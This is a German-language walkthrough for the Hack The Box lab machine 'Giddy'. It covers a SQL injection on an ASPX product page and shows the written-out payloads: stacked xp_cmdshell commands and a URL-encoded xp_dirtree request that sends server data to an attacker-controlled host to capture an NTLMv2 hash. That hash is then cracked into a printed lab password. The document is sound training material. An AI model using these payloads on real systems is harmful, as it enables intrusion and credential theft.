



# 	Giddy

 Ein kurzes Tutorial für die Maschine "Giddy" von hackthebox.eu

 https://www.hackthebox.eu/home/machines/profile/153

 Die Maschine lehrt insbesondere den Umgang mit Dirb (Suche von Unterverzeichnissen und Dateien), SQL-Injections, Burp, hashcat und Metasploit.

Einschätzung:


 
## Anleitung


 1. NMAP Scan 

    


 2. Besuch auf Port 80... Keine besonderen Hinweise auf Schwachstellen. (höchstens Stego im Bild)

    

 3. Dirb Scan Resultate (zum Scannen siehe Cheat Sheet)... Interessante Verzeichnisse: /remote und /mvc

    

 4. Dirb Resultate weisen auf Unterverzeichnis "..10./104/remote" hin.

    

 5. Besuch des /mvc Verzeichnis liefert eine Art Produktübersicht. 
    


 6. Öffnet man ein Item der Webseite, wird man auf folgenden Link weitergeleitet "http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18" Die Vermutung, dass eine SQL-Datenbanksprache verwendet wird, liegt nah. Daher wird versucht, den Request mit einem String zu erweitern, welcher von SQL-Sprachen als Kommentar interpretiert wird.

    
    
    Das Kommentar wird als solches interpretiert und somit ignoriert. Die Kombination aus SQL und ASPX deutet darauf hin, dass es sich um Microsofts Datenbankmanagementsystem MS-SQL-Server handelt.  
    
    
 7. Es wird ein Injection Cheat Sheet für MSSQL gesucht, um mögliche Schwachstellen ausnutzen zu können. 

    

 8. Als erstes wird versucht, mehrere Kommandos hintereinander zu hängen. Diese werden mit ";" getrennt. Der Aufruf von ```bash10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=5;EXEC+master.dbo.xp_cmdshell+'cmd';``` verläuft erfolgreich. Es wird aber kein Output auf der Webseite ausgegeben. Anstatt den befehl "cmd" zu übergeben wird versucht, auf den PC des angreifers zu pingen. ```bash 10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=5;EXEC+master.dbo.xp_cmdshell+'ping+<eigeneIp>'; ```. Um zu verifizieren, dass der Ping angekommen ist, wird mit tcpdump auf icmp Pakete gewartet. ```bash tcpdump -i tun0 icmp ``` Auf dem Interface werden keine ICMP-Pakete angenommen. Der Aufbau einer Reverse Shell wird daher wenig Sinn machen. 
 
    An dieser Stelle ist es hilfreich, nach bekannten Schwachstellen für MSSQL-Server zu suchen.
    
    https://searchsqlserver.techtarget.com/tip/Ten-common-SQL-Server-security-vulnerabilities-you-may-be-overlooking (19.02.2019)

    https://dzone.com/articles/top-cloud-data-security-challenges-alooma   (19.02.2019)
   
     Diese Artikel sind empfehlenswert, um eine Übersicht von möglichen Swachstellen zu erhalten. Aus dem zweiten Artikel wird ersichtlich, dass eine Out-Of-Band Injection hilfreich sein könnte. "Such is the case with Microsoft SQL Server’s xp_dirtree command, which can be used to make DNS requests to a server that an attacker controls...". Der Befehl ist aus dem Cheat Sheet bereits bekannt.
     
     "https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/"  (19.02.2019)
     
     Um eine Verbindung zum Server aufzubauen, kann folgende Anleitung befolgt werden. 
     
     "https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/"
     
     Achtung! Nicht vergessen den Request mit (strg+u) in url Format zu bringen.
    
    ```bash
    /mvc/Product.aspx?ProductSubCategoryId=18%3bdeclare+%40q+varchar(200)%3bset+%40q%3d'\\10.10.14.3\test\testy'%2b(SELECT+SUBSTRING(%40%40version,1,9))%2b'.malicious.com/foo'%3b+exec+master.dbo.xp_dirtree+%40q%3b+--
    ```
    


 9. NTLMv2 Hash in .NTLMv2 Datei speichern. 
    Mit "hashcat -h | grep -i ntlm" nach Modus für NTLM Hashes suchen.

    
    
    Username: Stacy Password:xNnWo6272k7x
    
 

